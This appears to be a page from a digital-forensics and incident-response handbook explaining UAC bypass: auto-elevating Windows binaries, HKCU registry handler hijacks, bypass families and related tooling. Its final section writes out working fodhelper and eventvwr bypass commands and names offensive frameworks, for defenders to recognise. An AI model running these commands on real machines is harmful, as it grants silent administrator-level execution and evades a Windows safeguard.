

repository: DFIDwiz-sketch/dfir-handbook · page: adversary/uac-bypass/index.html · generator: mkdocs

---
title: UAC Bypass
tags:
  - technique
  - adversary
  - privilege-escalation
  - defense-evasion
---

# UAC Bypass

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1548.002 (Abuse Elevation Control Mechanism: Bypass User Account Control) · **Tactic:** Privilege Escalation / Defense Evasion · **Last updated:** 2026-10-07
</div>

!!! abstract "Summary"
    When a member of the local Administrators group logs on (Vista and later), Windows gives them a **filtered, medium-integrity token**; running something "as administrator" needs a UAC prompt to switch to the **high-integrity** token. Some signed Windows binaries are marked **auto-elevate** — they get the high token with no prompt at the default UAC level. A UAC bypass makes one of those auto-elevating binaries run the attacker's command, usually by planting a value in a **per-user (HKCU) registry key** the binary reads. Result: admin-level code from a non-prompting, already-admin user. Microsoft does **not** treat UAC as a security boundary, so many bypasses stay unpatched for years.

## How the attack works

```mermaid
sequenceDiagram
    participant M as Malware (medium integrity, user is local admin)
    participant R as HKCU registry
    participant F as fodhelper.exe (auto-elevate)
    participant C as cmd.exe
    M->>R: write HKCU\Software\Classes\ms-settings\shell\open\command<br/>(Default)=payload, DelegateExecute=""
    M->>F: start fodhelper.exe
    F->>F: elevates silently (high integrity)
    F->>R: looks up ms-settings handler — HKCU wins over HKLM
    F->>C: launches payload as HIGH integrity
    M->>R: delete the key (cleanup)
```

Common families: **registry handler hijack** (fodhelper, computerdefaults, eventvwr via `mscfile`, sdclt), **environment variable / path hijack** (`%windir%` redirection for scheduled tasks like SilentCleanup), **DLL hijack** of auto-elevated binaries, and **elevated COM interfaces** (ICMLuaUtil). The open-source **UACME** project catalogues 70+ methods and the Windows builds each works on.

## Attacker tooling / commands

```text
# fodhelper (Windows 10/11) — what the registry write looks like
reg add HKCU\Software\Classes\ms-settings\shell\open\command /d "C:\Users\Public\p.exe" /f
reg add HKCU\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /f
fodhelper.exe

# eventvwr (Windows 7 – early 10)
reg add HKCU\Software\Classes\mscfile\shell\open\command /d "cmd.exe" /f
eventvwr.exe

# Frameworks
UACME (Akagi64.exe <method#>) · Metasploit bypassuac_* · Cobalt Strike elevate uac-token-duplication
```
